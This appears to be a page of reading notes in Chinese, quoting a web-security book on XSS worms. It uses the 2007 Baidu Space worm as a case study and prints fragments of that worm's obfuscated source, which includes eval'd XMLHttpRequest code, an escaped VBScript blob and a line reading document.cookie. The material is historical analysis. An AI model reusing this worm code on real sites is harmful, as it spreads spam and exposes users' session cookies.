 ```
        return false
      }

      eval('xmlhttp2.onr'+'eadystatechange=BI');
      xmlhttp2.open(BJ,BH,true);

      if(BJ=='POST'){
        xmlhttp2.setRequestHeader('Content-Type','application/x-www-form-urlencoded');
        xmlhttp2.setRequestHeader('Content-Length',BK.length)}
        xmlhttp2.send(BK);
        return true
      }"></DIV>

```
 2016-04-06

XSS Worm是XSS的一种终极利用方式，它的破坏力和影响力是巨大的。但是发起XSS Worm攻击也有一定的条件。

 2016-04-06

一般来说，用户之间发生交互行为的页面，如果存在存储型XSS，则比较容易发起XSS Worm攻击。

 2016-04-06

发送站内信、用户留言等页面，都是XSS Worm的高发区，需要重点关注。而相对的，如果一个页面只能由用户个人查看，比如“用户个人资料设置”页面，因为缺乏用户之间互动的功能，所以即使存在XSS，也不能被用于XSS Worm的传播。

 2016-04-06

下面这个XSS Worm的案例来自百度。
2007年12月，百度空间的用户忽然互相之间开始转发垃圾短消息，后来百度工程师紧急修复了这一漏洞：
百度空间的XSS蠕虫公告
这次事件，是由XSS Worm造成的。时任百度系统部高级安全顾问的方小顿，分析了这个蠕虫的技术细节，他在文中写到：
上面基本就是代码，总体来说，还是很有意思的。
首先就是漏洞，过滤多一个字符都不行，甚至挪一个位置都不行（上面的Playload部分）。这个虫子比较特殊的地方是感染IE用户，对其他用户无影响；另外就是完全可以隐蔽地传播，因为只是在CSS中加代码并不会有什么明显的地方，唯一的缺陷是有点卡。所以，完全可以长时间地存在，感染面不限制于blog，存在CSS的地方都可以，譬如Profile。
另外比较强大的一点就是跟真正的虫子一样，不只是被动地等待，选择在好友发消息时引诱别人过来访问自己的blog，利用好奇心可以做到这点。
最后还加了个给在线人随机发消息请求加链接，威力可能更大，因为会创造比较大的基数，这样一感染就是一个blog。
到Baidu封锁时，这个虫子已经感染了8700多个blog。总体来说还不错，本来想作为元旦的一个贺礼，不过还是提前死掉了。可以看到，在代码和流程里运用了很多系统本身就有的特性，自己挖掘吧。

 2016-04-06

这个百度XSS Worm的源代码如下：

```
window.onerror = killErrors;
execScript(unescape('Function%20URLEncoding%28vstrIn%29%0A%20%20%20%20strReturn%20%3D
%20%22%22%0A%20%20%20%20For%20aaaa%20%3D%201%20To%20Len%28vstrIn%29%0A%20%20%20%20%20
%20%20%20ThisChr%20%3D%20Mid%28vStrIn%2Caaaa%2C1%29%0A%20%20%20%20%20%20%20%20If%20Ab
s%28Asc%28ThisChr%29%29%20%3C%20%26HFF%20Then%0A%20%20%20%20%20%20%20%20%20%20%20%20s
trReturn%20%3D%20strReturn%20%26%20ThisChr%0A%20%20%20%20%20%20%20%20Else%0A%20%20%20
%20%20%20%20%20%20%20%20%20innerCode%20%3D%20Asc%28ThisChr%29%0A%20%20%20%20%20%20%20
%20%20%20%20%20If%20innerCode%20%3C%200%20Then%0A%20%20%20%20%20%20%20%20%20%20%20%20
%20%20%20%20innerCode%20%3D%20innerCode%20+%20%26H10000%0A%20%20%20%20%20%20%20%20%20
%20%20%20End%20If%0A%20%20%20%20%20%20%20%20%20%20%20%20Hight8%20%3D%20%28innerCode%2
0%20And%20%26HFF00%29%5C%20%26HFF%0A%20%20%20%20%20%20%20%20%20%20%20%20Low8%20%3D%20
innerCode%20And%20%26HFF%0A%20%20%20%20%20%20%20%20%20%20%20%20strReturn%20%3D%20strR
eturn%20%26%20%22%25%22%20%26%20Hex%28Hight8%29%20%26%20%20%22%25%22%20%26%20Hex%28Lo
w8%29%0A%20%20%20%20%20%20%20%20End%20If%0A%20%20%20%20Next%0A%20%20%20%20URLEncoding
%20%3D%20strReturn%0AEnd%20Function'),'VBScript');
cookie='';
cookieval=document.cookie;
spaceid=spaceurl;
myhibaidu="http://hi.baidu.com"+spaceid;
xmlhttp=poster();
debug=0;

online();
```